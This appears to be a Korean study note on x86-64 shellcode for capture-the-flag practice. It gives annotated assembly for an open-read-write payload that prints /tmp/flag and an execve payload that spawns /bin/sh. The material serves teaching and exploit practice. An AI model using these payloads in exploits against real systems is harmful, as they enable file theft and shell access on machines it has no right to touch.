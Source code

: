 ### Shellcode
셸을 흭득하기 위해, 어셈블리로 작성된 코드

#### ORW (Open, Read, Write)
특정 파일을 Open하여 Read나 Write를 수행하는 쉘코드
* /tmp/flag를 열고 읽는 예제
```nasm
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)

mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)

mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

#### execve
특정 프로그램을 실행하는 셸 코드. 보통 리눅스의 sh, bash 셸 프로그램을 실행시키기 위한 목적으로 작성된다.
* execve("/bin/sh", null, null)을 실행하는 예제
```nasm
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```
